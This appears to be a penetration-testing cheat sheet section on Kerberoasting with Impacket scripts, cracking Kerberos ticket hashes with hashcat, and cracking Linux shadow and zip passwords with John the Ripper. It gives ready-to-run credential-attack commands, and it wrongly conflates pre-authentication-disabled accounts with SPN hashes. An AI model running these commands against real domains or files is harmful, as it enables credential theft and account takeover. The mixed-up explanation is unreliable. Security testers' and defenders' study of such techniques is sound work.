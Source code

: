### Cracking KRB5TGS Hashes  Kerberoasting -  <a id="cracking-hashes-from-kerboroasting-krb-5-tgs"></a>

A service principal name \(SPN\) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. This allows a client application to request that the service authenticate an account even if the client does not have the account name.  These SPNs cat be collected by using a username list and Impacket's example scripts. After gathering a list of valid usernames that have the property ‘Do not require Kerberos pre-authentication’ set \(UF\_DONT\_REQUIRE\_PREAUTH\), you can get the SPN hash for cracking, replay, or creating of Kerberos tickets using the example below.

```bash
python GetNPUsers.py -dc-ip $DC_IP $DOMAIN/ -usersfile $users_list -format hashcat -outputfile $out_hash_list
```



```bash
python GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN/$valid_user
```

Hashcat supports multiple versions of the KRB5TGS hash which can easily be identified by the number between the dollar signs in the hash itself.

* 13100 - Type 23 - $krb5tgs$23$
* 19600 - Type 17 - $krb5tgs$17$
* 19700 - Type 18 - $krb5tgs$18$

KRB5TGS Type 23 - Crackstation humans only word list with OneRuleToRuleThemAll mutations rule list.

```text
hashcat64 -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O d:\krb5tgs.hash d:\WORDLISTS\realhuman_phill.txt -r OneRuleToRuleThemAll.rule	
```

_Benchmark using a Nvidia 2060 GTX:_ Speed: 250 MH/s Elapsed Time: 9 Minutes

### To crack linux hashes you must first unshadow them <a id="to-crack-linux-hashes-you-must-first-unshadow-them"></a>

`unshadow passwd-file.txt shadow-file.txt`

`unshadow passwd-file.txt shadow-file.txt > unshadowed.txt`

### Crack a zip password <a id="crack-a-zip-password"></a>

`zip2john Zipfile.zip | cut -d ':' -f 2 > hashes.txt` `hashcat -a 0 -m 13600 hashes.txt /usr/share/wordlists/rockyou.txt`

Hashcat appears to have issues with some zip hash formats generated from zip2john. You can fix this by editing the zip hash contents to align with the example zip hash format found on the hash cat 5KFB6 example page: `$zip2$*0*3*0*b5d2b7bf57ad5e86a55c400509c672bd*d218*0**ca3d736d03a34165cfa9*$/zip2$`

John seems to accept a wider range of zip formats for cracking.

John the ripper: `john --wordlist=/usr/share/wordlists/rockyou.txt <hash_file>`
